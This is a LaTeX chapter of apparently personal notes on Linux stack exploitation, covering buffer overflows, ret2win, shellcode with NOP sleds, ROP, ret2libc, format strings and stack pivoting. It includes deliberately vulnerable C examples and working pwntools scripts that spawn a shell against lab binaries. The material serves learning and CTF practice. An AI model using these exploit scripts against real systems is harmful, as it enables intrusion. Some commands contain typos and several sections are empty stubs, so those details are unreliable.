
\section{Stack Exploitation}

\subsection{Introduction}
The most basic forms of binary exploitation occur on the stack.
Because the {\bf Instruction Pointer} is saved on the stack, just like 
local variables. When a function is called and when the function return it pops
the instruction pointer and jump to it. If an attacker is able to overwrite
this instruction pointer he will be able highjack the execution flow.

Such a situation occurs when a function is allocating a buffer on the stack and
an insecure function is used to parse the user input to store it in the buffer.

An insecure function (or use of function) is a function that will write more
data to the buffer that its actual size.*
\begin{verbatim}
void unsafe() {
    char buffer[40];

    puts("Overflow me");
    gets(buffer);
}
\end{verbatim}

\subsection{Finding the ip}

\subsubsection{de Bruijn sequences of order n}

in order to be efficient it is possible to provide a {\bf de Bruijn sequences of
order $n$}, which is simply a sequence where no string of \verb+n+ characters
is repeated.

this can be done using \verb+pwntools-pwn cyclic+ or \verb+pattern_create.rb+ of
metasploit. 
\begin{verbatim}
p/opt/metasploit/tools/exploit/attern_create.rb -l <size> 
pwntools-pwn cyclic <size>
\end{verbatim}

when such a string is provided and generate a segmentation fault, the
instruction pointer will contain a substring of the sequence. It is then
possible to obtain the {\bf offset of the saved instruction pointer} in the input
\begin{verbatim}
/opt/metasploit/tools/exploit/pattern_offset.rb -q Aa3A
pwntools-pwn cyclic -l faad
\end{verbatim}

this will return the {\bf payload usefull size}. The {\bf payload total size}
is the usefull size + the size of the instruction pointer.

\subsubsection{Manual method}

Another good way to find the usefull size is the follwing:
\begin{enumerate}
        \item set a breakpoint at the instruction after the input call.
        \item when the break point is hit use \verb+search-pattern+ to find the
            start offset
\begin{verbatim}
gef>  search-pattern AAAA
[+] Searching 'AAAA' in memory
[+] In '[stack]'(0x7ffffffdc000-0x7ffffffff000), permission=rwx
  0x7fffffffc044 - 0x7fffffffc04a  →   "AAAA\n"
\end{verbatim}

        \item use \verb+info frame+ to find the \verb+rip+ address on the
            stack
\begin{verbatim}
gef>  info frame
Stack level 0, frame at 0x7fffffffc0a0:
 rip = 0x5555555552fc; saved rip = 0x7ffff7ddd290
 called by frame at 0x7fffffffc140
 Arglist at 0x7fffffffc028, args:
 Locals at 0x7fffffffc028, Previous frame's sp is 0x7fffffffc0a0
 Saved registers:
  rbp at 0x7fffffffc090, rip at 0x7fffffffc098
\end{verbatim}
        \item compute the difference of address
\begin{verbatim}
$ echo 'ibase=16;98-44' | bc
84
\end{verbatim}
\end{enumerate}


\subsubsection{Authomated pwntools}

for this to work \verb+coredump+ must be anabled.

\begin{verbatim}
def find_ip_offset(payload):
    io.sendline(payload).wait(1)
    core = io.corefile
    # in x86 read programm counter value
    #ip_value = core.pc 
    # in x64 read pattern from stack pointer since x64 it is not loaded because not a
    # valid ip value
    ip_value = core.read(core.sp, 4) 

    offset = cyclic_find(ip_value) 
    log.success(f'IP offset at {ip_offset} with value {ip_value}')


io = start()
...SNIP...
find_ip_offset(cyclic(100))
\end{verbatim}




\subsection{ret2win}
A ret2win is simply a binary where there is a {\emph win} function to which the
redirection to it is sufficient.

\subsubsection{Example}
\begin{verbatim}
// gcc source.c -o vuln -no-pie -fno-stack-protector -z execstack -m32

#include <stdio.h>

void unsafe() {
    char buffer[40];

    puts("Overflow me");
    gets(buffer);
}

void main() {
    unsafe();
}

void flag() {
    puts("Exploited!!!!!");
}

\end{verbatim}
\subsubsection{Exploit}
based on the offset found the only thing remaining to do is to get the address
of the function we need to jump to
it can be obtained with \verb+gdb+, \verb+objdump+:

\begin{verbatim}
$ objdump -d ./vuln
80491c2:       c3                      ret

080491c3 <flag>:
 80491c3:       55                      push   %ebp
\end{verbatim}

Or with \verb+readelf+:
\begin{verbatim}
readelf --symbols --wide ./vuln | grep FUNC
...SNIP...    
66: 080491c3    43 FUNC    GLOBAL DEFAULT   13 flag
67: 08049000     0 FUNC    GLOBAL HIDDEN    11 _init
\end{verbatim}

in order to craft the payload the endianness must be taken into account
\begin{verbatim}
$ readelf --headers vuln |grep endian
  Data:                              2's complement, little endian
\end{verbatim}

so in this case \verb+080491c3+ will be \verb+\xc3\x91\x04\x08+

the payload here is quite simple:
it will be \verb+<junk><flag_addess>+ where junk is of offset size.

\begin{verbatim}
$(python -c "print('\x55' * offset + '\x08\x04\x91\xc3')")
\end{verbatim}

with pwntools:
\begin{verbatim}
from pwn import *            # This is how we import pwntools

p = process('./vuln')        # We're starting a new process

payload = b'A' * offset
payload += p32(0x080491c3)   # or p64 Use pwntools to pack it

log.info(p.clean())          # Receive all the text
p.sendline(payload)

log.info(p.clean())          # Output the "Exploited!" string to know we succeeded
\end{verbatim}


\subsection{ret2stack (shellcode)}

in this attack the payload will contain shellcode and we the saved instruction
pointer over-riden with the address of the buffer. Therefore the
process when returning will jump to the stack and execute the shellcode.

Notei that for this to work:
\begin{itemize}
    \item ASLR must be disabled (\verb+/proc/sys/kernel/randomize_va_space+
        must be 0)
    \item the stack must be executable
\end{itemize}

\subsubsection{Example}
\begin{verbatim}
// gcc source.c -o vuln -no-pie -fno-stack-protector -z execstack -m32

#include <stdio.h>

void unsafe() {
    char buffer[300];

    puts("Overflow me");
    gets(buffer);
}

void main() {
    unsafe();
}
\end{verbatim}

\subsubsection{Exploit}

First check security of the binary:
\begin{verbatim}
$ pwntools-pwn checksec ./vuln
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
\end{verbatim}

The payload will be of the form:
\begin{verbatim}
<shellcode><padding><address of shellcode>
\end{verbatim}


First we need to find the address of the buffer which will be also the address
of the shellcode we need to jump to.

this can be done with \verb+gdb+ 
input for exemple enough \verb+\x61+ to stack overflow.
then inspect the stack in order to find where the first \verb+\x61+ start with
a command like:
\begin{verbatim}
gef>  x/1000cb $esp
\end{verbatim}

find the offset (the payload size) with \verb+pwntools-pwn cyclic+

craft a shellcode and compute the final payload:
\begin{verbatim}
from pwn import *

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.sh())          # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffb5cb)              # or p64 Address of the Shellcode

log.info(p.clean())
p.sendline(payload)
p.interactive()
\end{verbatim}

Note: it might be necessary when crafting a payload to eliminate {\bf bad
caracters}. Bad characters can vary, but often we will see characters like this:
\begin{itemize}
    \item \verb+\x00+ - Null Byte
    \item \verb+\x0A+ - Line Feed
    \item \verb+\x0D+ - Carriage Return
    \item \verb+\xFF+ - Form Feed
\end{itemize}


to identify bad chars: craft a payload containing all possible chars and
inspect the stack to see if some are missing.

this has to be done as an iterative process until all injected chars are
present in the buffer.

msfvenom offer a \verb+-bad-chars "<chars>"+ parameter when generating a
shellcode.

for pwntools the use of 
\verb+pwnlib.encoders.encoder.encode(raw_bytes, avoid, expr, force)+


\subsubsection{nop sled (slide)}

NOP (no operation) instructions do exactly what they sound like: nothing. Which
makes then very useful for shellcode exploits, because all they will do is run
the next instruction. If we pad our exploits on the left with NOPs and point
EIP at the middle of them, it'll simply keep doing no instructions until it
reaches our actual shellcode. This allows us a greater margin of error as a
shift of a few bytes forward or backwards won't really affect it, it'll just
run a different number of NOP instructions - which have the same end result of
running the shellcode. This padding with NOPs is often called a {\bf NOP slide}
or {\bf NOP sled}, since the EIP is essentially sliding down them.

\begin{verbatim}
from pwn import *

payload = b'\x90' * 240                 # The NOPs
payload += asm(shellcraft.sh())         # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4 + 120)        # or p64 Address of the buffer + half nop length
\end{verbatim}


\subsection{Return oriented programming (ROT)}

\subsubsection{Introduction}
ROP is a technic used in case a program has NX bit set (meaning the stack will
not be executable).

The basis of ROP is chaining together small chunks of code already present
within the binary itself in such a way to do what you wish. This often involves
passing parameters to functions already present within \verb+libc+, such as
\verb+system+ 

\subsubsection{Gadgets}
Gadgets are small snippets of code followed by a \verb+ret+ instruction, e.g.
\verb+pop rdi; ret+. We can manipulate the \verb+ret+ of these gadgets in such a way
as to string together a large chain of them to do what we want.

for example consider we want to call a function and pass it a value in
\verb+rdi+ (first argument provided in \verb+x64+). Consider we find a gadget
\verb+pop rdi ; ret+.

the crafting a payload like this will do the job:
\begin{verbatim}
<padding_until_rip><gadget_addr><value><fun_addr>
\end{verbatim}

This mean \verb+<gadget_addr>+ replace the initial return value of the
vulnerable function. then what will happen is that when the \verb+ret+ of the
vuln function execut it pop the address of \verb+pop rdi+ then it pop
\verb+value+ in \verb+rdi+ then it exec the \verb+ret+ jumping to the function
we want.


to find gadgets: 
\begin{verbatim}
$ ROPgadget --binary ./vuln
Gadgets information
============================================================
0x080490da : adc al, 0x68 ; and al, al ; add al, 8 ; call eax
0x08049052 : adc al, 0xc0 ; add al, 8 ; push 0x10 ; jmp 0x8049020
0x08049042 : adc al, al ; add al, 8 ; push 8 ; jmp 0x8049020
0x08049126 : adc byte ptr [eax + 0x68], dl ; and al, al ; add al, 8 ; call edx
0x080491aa : adc byte ptr [eax - 0x3603a275], dl ; ret
0x08049057 : adc byte ptr [eax], al ; add byte ptr [eax], al ; jmp 0x8049020
...SNIP...
0x08049015 : test eax, eax ; je 0x804901b ; call eax

Unique gadgets found: 124
\end{verbatim}

or with ropper:
\begin{verbatim}
$ ropper -f htb-console --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: htb-console
0x0000000000401473: pop rdi; ret;
\end{verbatim}

\subsubsection{ret2win (x86)}

since in \verb+x86+ all parameters are on the stack the exploit is quite simple
the payload is like this
\begin{verbatim}
<padding_until_RIP><fun_addr><rip_for_fun><param_1>...<param_n>
\end{verbatim}
regarding \verb+rip_for_fun+ we don't care where it jumps.


\begin{verbatim}
from pwn import *

p = process('./vuln-32')

payload = b'A' * 52            # Padding up to EIP
payload += p32(0x080491c7)     # Address of flag()
payload += p32(0x0)            # Return address - don't care if crashes when done
payload += p32(0xdeadc0de)     # First parameter
payload += p32(0xc0ded00d)     # Second parameter

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
\end{verbatim}

\subsubsection{ret2win (x64)}
more complex since most parameters are in registers. So we need to find gadget
that will \verb+pop+ into registers. We might have to chain them. Considering
that the flag function needs 2 arguments and 2 gadgets were found:
\begin{verbatim}
pop rdi; ret
pop rsi; pop 15; ret
\end{verbatim}

\begin{verbatim}
from pwn import *

p = process('./vuln-64')

POP_RDI, POP_RSI_R15 = 0x4011fb, 0x4011f9


payload = b'A' * 56            # Padding
payload += p64(POP_RDI)        # pop rdi; ret
payload += p64(0xdeadc0de)     # value into rdi -> first param
payload += p64(POP_RSI_R15)    # pop rsi; pop r15; ret
payload += p64(0xc0ded00d)     # value into rsi -> first param
payload += p64(0x0)            # value into r15 -> not important
payload += p64(0x40116f)       # Address of flag()
payload += p64(0x0)

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
\end{verbatim}


\subsubsection{ret2libc (x86)}

A \verb+ret2libc+ is based off the \verb+system+ function found within the C
library. This function executes anything passed to it making it the best
target. Another thing found within libc is the string \verb+/bin/sh+; if you
pass this string to system, it will pop a shell.

\begin{itemize}
    \item Getting Libc and its base: (only work with no PIE / no ASLR)
\begin{verbatim}
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space 
$ ldd vuln-32
\end{verbatim}

    \item Getting the location of \verb+system()+
\begin{verbatim}
$ readelf -s <libc_path> | grep system
\end{verbatim}
or  from pwntools
\begin{verbatim}
exe.symbols['system'] # or exe.symbols.system
\end{verbatim}

    \item Getting the location of \verb+/bin/sh+: 
\begin{verbatim}
$ strings -a -t x <libc_path> | grep /bin/sh 
\end{verbatim}
\end{itemize}

exploit: 
\begin{verbatim}
from pwn import *

p = process('./vuln-32')

libc_base = 0xf7dc2000
# system = libc_base + 0x44f00
system = p.symbols['system']
binsh = libc_base + 0x18c32b

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system
payload += p32(0x0)         # return pointer - not important once we get the shell
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
\end{verbatim}

\subsubsection{ret2libc (x64)}
exploit in case of \verb+x64+
\begin{verbatim}
from pwn import *

p = process('./vuln-64')

libc_base = 0x7ffff7de5000
system = libc_base + 0x48e20
binsh = libc_base + 0x18a143

POP_RDI = 0x4011cb

payload = b'A' * 72         # The padding
payload += p64(POP_RDI)     # gadget -> pop rdi; ret
payload += p64(binsh)       # pointer to command: /bin/sh
payload += p64(system)      # Location of system
payload += p64(0x0)         # return pointer - not important once we get the shell

p.clean()
p.sendline(payload)
p.interactive()
\end{verbatim}


\subsubsection{pwntools ret2libc}
Note that pwntools offer automatic process to grab the needed address:

\begin{verbatim}

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                        # Simply grab the libc it's running with
libc.address = 0xf7dc2000              # Set base address

system = libc.sym['system']            # Grab location of system
binsh = next(libc.search(b'/bin/sh'))  # grab string location
\end{verbatim}



\subsection{Format string bug}
\url{https://axcheron.github.io/exploit-101-format-strings/}

\subsubsection{Introduction}
Format String is an  easily exploitable bug that can allow to perform powerful
actions such as reading from and writing to arbitrary memory locations.

Format strings provide a generic solution that allows a string to be output
that includes the values of variables, formatted precisely as dictated by the
programmer.
\begin{verbatim}
printf( “£%.2f\n", AmountInSterling );
\end{verbatim}
The first parameter to this function is the format string that specifies a
constant string with placeholders that specify where variables are to be
substituted into the string.

Interesting placeholders:
\begin{itemize}
    \item \verb+%p+: pointer
    \item \verb+%x$p+: pointer + offsert (\verb+x+)
    \item \verb+%s+: string
    \item \verb+%d+: int
    \item \verb+%x+: hex
\end{itemize}

A format string bug occurs when user-supplied data is included in the format
specification string of one of the \verb+printf+ family of functions and any
similar functions on your platform that accept a string that can con- tain
C-style format specifiers, such as the \verb+wprintf+ functions on the Windows
platforms.

The attacker supplies a number of format specifiers that have no corresponding
arguments on the stack, and values from the stack are used in their place. This
leads to information disclosure and potentially the execution of arbitrary
code.

The key is that \verb+printf+ expects as many parameters as format string
specifiers, and in 32-bit it grabs these parameters from the stack. If there
aren't enough parameters on the stack, it'll just grab the next values
essentially leaking values off the stack.

\begin{verbatim}
#include <stdio.h>

int main(void) {
    char buffer[30];

    gets(buffer);

    printf(buffer);
    return 0;
}
\end{verbatim}

When facing the previous code, we can use \verb+buffer+ to leak the stack by
providing the format string (for example \verb+%x %x %x %x+)

    \url{https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html}

\subsubsection{Arbitrary Reads}

One important thing to understand is that in x86 the format string is itself
stored on the stack.  so providing an input like
\verb+AAAAAAAAAAAAAAAAAAA%x%x...SNIP...%x%x+ should at one point display
\verb+41414141414141+

we can the according to the printed value simplify it by
\verb+AAAA%n$p+
\begin{verbatim}
$ ./a.out "AAAA%p %p %p %p %p %p %p %p %p %p"
AAAA0xffffdde8 0x64 0xf7ec1289 0xffffdbef 0xffffdbee (nil) 0xffffdcd4 0xffffdc74 (nil) 0x41414141
$ ./a.out 'AAAA%10$p'
AAAA0x41414141
\end{verbatim}

So this means we can pass an arbitrary value as an argument to \verb+printf+

Then if we provide an address and a \verb+%s+ it will print the data at that
address.

let's try with the base address of the binary (\verb+vmmap+ in gdb). The
problem is that the address will contain NULL bytes so it will stop the string.




\subsubsection{Arbitrary Write}











\subsection{Canaries}

\subsubsection{Leak}

\subsection{Stack pivoting}
Stack Pivoting is a technique used when facing lack space on the stack - for
example, when the buffer overflow allow only to overwrite the \verb+ip+. In this scenario, it is not possible to complete a full ROP chain.

During Stack Pivoting, the shellcode take control of the RSP register and
"fake" the location of the stack. There are a few ways to do this.

\url{https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting}

\subsubsection{sub esp pivoting}
Consider the following example
\begin{verbatim}
void buy(void)
{
  undefined auStack_48 [72];

  read(0,auStack_48,0x58);
  return;
}
\end{verbatim}

and consider the assembly code is the following with no \verb+push/pop rbp+ (strange but happen)

\begin{verbatim}
   0x55555555532a:      sub    rsp,0x48
   0x555555555348:      mov    rsi,rsp
   0x55555555534b:      mov    edx,0x50
   0x555555555350:      xor    edi,edi
   0x555555555352:      call   0x555555555060 <read@plt>
   0x555555555357:      add    rsp,0x48
   0x55555555535b:      ret
\end{verbatim}


The payload is only able to overwrite the \verb+ip+ but with with the help of a
\verb+sub rsp+ ROP gadget it is possible to increase the size of the stack and
place it a ROP chain.


considering the following 
\begin{verbatim}
$ ropper --file binary --search sub
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: sub

[INFO] File: pwnshop
0x000000000000121a: sub esp, 0x28; ret;
0x00000000000013dd: sub esp, 8; add rsp, 8; ret;
0x0000000000001005: sub esp, 8; mov rax, qword ptr [rip + 0x2fd9]; test rax, rax; je 0x1016; call rax;
\end{verbatim}



 \begin{figure}
     
\includegraphics[width=.5\linewidth]{binary/exploit_linux/images/sub_rsp_pivoting.png}
  \caption{Registry parts}
  \label{fig:sub_rsp_pivoting}
\end{figure}

